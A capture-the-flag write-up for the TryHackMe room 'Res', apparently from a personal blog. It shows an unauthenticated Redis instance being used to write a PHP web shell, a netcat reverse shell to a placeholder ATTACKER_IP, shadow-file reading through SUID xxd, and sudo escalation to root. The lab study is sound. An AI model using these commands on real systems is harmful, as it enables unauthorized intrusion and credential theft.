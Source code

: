 ```yaml
---
title: "Res"
collection: publications
permalink: /publication/RES
excerpt: 'This is a subscriber only room from Tryhackme'
date: 2023-02-22
venue: '02-22'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/header1.png)

**Link:** [Res](https://tryhackme.com/room/res)

## Description : 
Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

--- 

## Enumeration :
let's scan the target with nmap

``` console
nmap -sC -sV -T4 -p- 10.10.239.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 10.10.239.82
Host is up (0.10s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.04 seconds
```

* we got 2 open ports: 80 (apache web server) and 5279 (Redis which is a data structure storage service)
* i did some research and i found some enumeration steps for [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
* we can connect to redis service via redis-cli without credentials

**how to install redis-tools**
```cmd
sudo apt-get install redis-tools
```

## Foothold :

* To achieve RCE we need to know the web directory, by default it's /var/www/html and we can be sure if we look at the apache web server
![proof](/images/proof.png)

* Run the following commands to achieve RCE : 
```console
redis-cli -h 10.10.239.82
 
10.10.239.82:6379> config set dir /var/www/html
OK
10.10.239.82:6379> config set dbfilename shell.php
OK
10.10.239.82:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.239.82:6379> save
OK
10.10.239.82:6379> exit
```

**let's start a netcat listener**
```console
# nc -lvnp 1234
```

**let's trigger the reverse shell by visiting:**

```bash
http://10.10.239.82/shell.php?cmd=nc ATTACKER_IP PORT -e /bin/bash
```

![website](/images/revshell.png)

* we are in as www-data

```bash
# nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.18.2.136] from (UNKNOWN) [10.10.239.82] 51758
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* we can upgrade the revese shell using the following commands

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
PRESS CTRL+Z
# stty raw -echo; fg
```

## Horizontal Privilege Escalation :
* We can see that there is a user called Vianka
* Let's check the files that have the SUID bit set
```bash
find / -perm -u=s -type f 2>/dev/null
``` 
![suid](/images/suid.png)

* The results show a binary xxd with the SUID bit set and the owner is root

* next step is to visit [GTFOBins](https://gtfobins.github.io/#)

![xxd](/images/xxd.png)

* We can read any file as root
* Let's read the shadow file and see if we can crack Vianka's hash

```bash
www-data@ubuntu:/home/vianka$ xxd /etc/shadow | xxd -r 
xxd /etc/shadow | xxd -r 
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
**crack Viank's hash with john**
![hash](/images/hash.png)

* switch user to vianka and get the flag 

![user-flag](/images/user-flag.png)

## Vertical Privilege Escalation :
* Let's check sudo privileges

```bash
vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
* Vianka can run any commands with sudo
* All we need to do is run **sudo su**

![root-flag](/images/root-flag.png)